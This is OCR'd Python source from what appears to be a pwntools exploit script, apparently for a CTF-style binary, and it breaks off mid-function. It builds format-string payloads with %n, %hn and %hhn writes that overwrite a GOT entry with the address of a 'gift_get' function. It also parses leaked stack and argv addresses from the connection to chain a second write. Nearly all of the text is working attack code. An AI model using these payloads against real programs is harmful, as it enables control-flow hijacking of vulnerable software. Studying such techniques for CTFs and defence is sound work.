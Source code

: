 ```
def fmt_str_write_payload_get(got_addr_index):
    example_fmt_str_wrtie = b'%.1000x%10$n%.10x%10$hn'
    got_addr_index += align_fix_len_get(example_fmt_str_wrtie)

    gitf_addr = target_info['exec_info'].symbols['gift_get']
    print('[**] gift address = {0}'.format(hex(gitf_addr)))

    new_val_4bytes_high = (gitf_addr & 0xffff0000) >> 16
    new_val_2bytes_low = gitf_addr & 0xffff
    cnvrt_size2len_high = new_val_4bytes_high - len(target_info['fixed_output_1'])
    cnvrt_size2len_low = new_val_2bytes_low - cnvrt_size2len_high- len(target_info['fixed_output_1'])
    print('[**] want to change got address to {0}_{1}'.format(hex(new_val_4bytes_high), hex(new_val_2bytes_low)))
    addr4low_bytes_write = addr4got
    addr4high_bytes_write = addr4low_bytes_write + 0x2

    # write got
    fmt_str = b'%.' + str(cnvrt_size2len_high).encode() + b'x'
    fmt_str += b'%' + str(got_addr_index).encode() + b'$n'
    fmt_str += b'%.' + str(cnvrt_size2len_low).encode() + b'x'
    fmt_str += b'%' + str(got_addr_index + 1).encode() + b'$hn'

    target_info['align_fix'] = target_info['align_fix'] - len(fmt_str)
    fmt_str += b'A' * target_info['align_fix']

    # target address set
    fmt_str += pwn.p64(addr4high_bytes_write)
    fmt_str += pwn.p64(addr4low_bytes_write)
    return fmt_str

def fmt_str4heap_payload_2pendal_get():
    # argv in stack address is 1nd pendal
    stack_argv_index = target_info['caller_args_save_cnt'] + int(target_info['heap_func_stack_len'] / target_info['addr_len'])
    stack_argv_index += 2 # rbp && callee return
    stack_argv_index += 1

    pendal_1nd_addr = conn.recvline()
    pendal_1nd_addr = conversion.str2int(pendal_1nd_addr[8:-1])
    pendal_2nd_addr = conn.recvline()
    pendal_2nd_addr = conversion.str2int(pendal_2nd_addr[7:-1])
    pendal_2nd_save_addr = conn.recvline()
    pendal_2nd_save_addr = conversion.str2int(pendal_2nd_save_addr[8:-1])
    print('[++] receive &argv = {0}, argv = {1}, argv[0] = {2}'.format(hex(pendal_1nd_addr), hex(pendal_2nd_addr), hex(pendal_2nd_save_addr)))

    offset = pendal_2nd_addr - pendal_1nd_addr
    offset = int(offset / target_info['addr_len'])
    argv_index = stack_argv_index + offset

    high_4bytes_val = (addr4got & 0xffff0000) >> 16
    low_2bytes_val = addr4got & 0xffff
    print('[**] low = {0}, high = {1}'.format(hex(low_2bytes_val), hex(high_4bytes_val)))

    # bytes 0 - 1
    fmt_str4low = b'%.' + str(low_2bytes_val).encode() + b'x'
    fmt_str4low += b'%' + str(argv_index).encode() + b'$hn'

    argv_0_addr_low_2bytes = pendal_2nd_save_addr & 0xff
    argv_0_addr_low_2bytes += 0x2
    fmt_str4update_addr4middle = b'%.' + str(argv_0_addr_low_2bytes).encode() + b'x'
    fmt_str4update_addr4middle += b'%' + str(stack_argv_index).encode() + b'$hhn'
```